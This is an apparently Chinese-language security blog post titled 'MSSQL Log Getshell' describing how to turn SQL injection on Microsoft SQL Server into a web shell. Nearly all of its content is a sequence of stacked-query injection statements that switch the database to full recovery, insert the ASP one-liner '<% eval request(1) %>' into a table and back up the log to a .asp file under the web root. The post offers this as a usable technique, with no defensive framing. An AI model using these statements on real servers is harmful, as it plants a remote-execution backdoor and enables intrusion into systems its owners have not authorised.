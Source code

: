 ```yaml
---
title: "MSSQL Log Getshell"
date: 2018-03-14T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['mssql','sqli']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


需要支持堆查询.

db_owner 权限即可.

<!--more-->

```
;alter database xxxx set RECOVERY FULL--
;create table cmd (a image)--
;backup log xxxx to disk = 'd:/web/1.bak' with init--
;insert into cmd (a) values ('<% eval request(1) %>')--
;backup log xxxx to disk = 'd:/web/2.asp'--
```



另外还有差异备份, 不过缺点是备份出来的文件会很大.
